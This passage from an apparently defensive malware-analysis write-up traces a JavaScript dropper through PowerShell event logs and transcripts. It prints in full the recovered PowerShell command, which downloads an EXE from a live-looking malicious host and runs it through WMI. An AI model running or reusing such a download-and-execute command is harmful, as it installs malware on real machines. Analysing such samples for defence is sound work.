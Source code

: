 Similarly, in the PowerShell Application logs, there's a 4104 that gives
the PowerShell commandline:
`(new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT 'C:\Users\REM\AppData\Local\TempoUE18.Exe'`

![](/img/1530930820785.png)

##### PowerShell Transcripts

And, in the transcript directory (for me, `c:\powershell`), we have a
new file,
`PowerShell_transcript.DESKTOP-2C3IQHO.z4SNguC5.20180706222825.txt`. It
contains information about the computer, the user, the powershell
versions, and the full command line.

## PowerShell Analysis

Having just discovered the PowerShell command several different ways,
let's take a quick look at what it does. There isn't any obfuscation
here other than some mixed case on the back half.

The script will:

1.  Download a file from `hxxp://gostat.dhl-tcp.com/page818.php` and
    store it as `C:\Users\REM\AppData\Local\TempoUE18.EXE`.
2.  Use WMI to create a process from that exe path.

## Next Stage exe

At the time of writing, the server is not up, so I was unable to get the
exe. As this file was uplosed to VT almost two months ago, that isn't
surprising.

## Summary

This post really focused on several different ways to dynamically track
what happened when this javascript file was run. While in this case each
tool provided similar information, each will have strengths and
weaknesses, and there will be times where one is clearly ahead of the
others.





